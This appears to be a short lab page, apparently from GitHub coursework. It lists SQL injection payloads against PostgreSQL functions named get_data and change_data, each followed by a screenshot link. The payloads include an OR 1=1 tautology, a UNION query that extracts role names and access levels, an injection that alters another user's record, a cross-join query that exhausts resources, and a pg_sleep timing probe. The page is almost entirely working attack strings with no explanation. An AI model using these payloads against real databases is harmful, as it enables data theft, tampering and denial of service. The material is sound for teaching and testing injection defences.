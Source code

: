     SELECT * FROM get_data('1'' OR 1=1 -- ');
<img width="565" alt="2-2-7-1" src="https://user-images.githubusercontent.com/55449630/206284602-949ff835-6c9e-4b18-92a0-8171daaafd35.png">

    SELECT * FROM get_data('1'' UNION SELECT CAST(NULL AS INTEGER), CAST(role_name AS VARCHAR), CAST(access_level AS INTEGER) FROM role_access_level -- ');
<img width="565" alt="2-2-7-2" src="https://user-images.githubusercontent.com/55449630/206284597-0e20b293-7fdb-4ae4-9224-968cc9c2fcd5.png">

    SELECT * FROM change_data('1'' OR role_name = ''yuriy'' -- ', 3);
<img width="565" alt="2-2-7-3" src="https://user-images.githubusercontent.com/55449630/206284593-06490de9-769d-4412-8d90-0ea19ebeb57a.png">

    SELECT * FROM get_data('1'' UNION
    (SELECT a1, CAST(a1 AS VARCHAR), CAST(a1 AS INTEGER)
    FROM (SELECT generate_series a1 FROM generate_series (1,1000)) t1
    CROSS JOIN (SELECT * FROM generate_series (1,1000) t2) t3) -- ');
<img width="565" alt="2-2-7-4" src="https://user-images.githubusercontent.com/55449630/206284591-06c7514e-ec1e-424f-a815-942041e44522.png">

    SELECT * FROM get_data('1'' OR EXISTS (SELECT 1 FROM PG_SLEEP(30)) -- ');
<img width="565" alt="2-2-7-5" src="https://user-images.githubusercontent.com/55449630/206284586-3b54d291-c891-458d-92ef-fac2688ad503.png">
